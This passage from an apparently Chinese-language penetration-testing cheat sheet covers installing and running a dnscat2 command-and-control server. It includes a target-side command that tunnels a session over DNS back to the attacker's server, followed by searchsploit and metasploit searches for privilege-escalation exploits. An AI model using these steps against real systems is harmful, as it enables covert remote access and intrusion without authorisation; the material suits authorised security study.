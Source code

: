 #### 攻击机器：

安装:

```text
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

运行dnscat2:

```text
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```

目标机器:

[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/)

[https://github.com/lukebaggett/dnscat2-powershell/](https://github.com/lukebaggett/dnscat2-powershell/)

```text
dnscat --host <dnscat server_ip>
```

## BOF / Exploit

## Exploit 搜索

寻找枚举主机/服务的exp

| 命令 | 解释 |  |
| :--- | :--- | :--- |
| \`searchsploit windows 2003 | grep -i local\` | 从 exploit-db搜索EXP, 这里以WIndows2003本地提权为例 |
| `site:exploit-db.com exploit kernel <= 3` | 使用Google搜索exploit-db.com |  |
| `grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*` | 用grep搜索metasploit的模块——因为msf的搜索有点差劲。 |  |

### 搜索EXP

安装exploit-db的本地备份:

```text
 searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
```
